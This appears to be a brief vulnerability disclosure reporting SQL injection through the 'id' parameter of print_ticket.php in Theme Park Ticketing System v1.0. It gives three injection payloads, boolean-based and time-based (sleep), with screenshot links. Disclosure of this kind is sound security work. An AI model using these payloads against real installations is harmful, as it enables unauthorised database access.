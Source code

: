# Theme Park Ticketing System v1.0 has SQL injection

BUG_Author: dengbaihao

Website source code address: https://www.sourcecodester.com/php/14613/theme-park-ticketing-system-using-phpmysqli-source-code.html

Vulnerability File: /tpts/print_ticket.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=1 AND 666=666

![image](https://github.com/XIAONIGM/CVEReport/blob/main/3.png)

Payload2:id=1 AND 666=999

![image](https://github.com/XIAONIGM/CVEReport/blob/main/4.png)

Payload3:id=1 and (select 2 from (select(sleep(10)))c)

![image](https://github.com/XIAONIGM/CVEReport/blob/main/5.png)
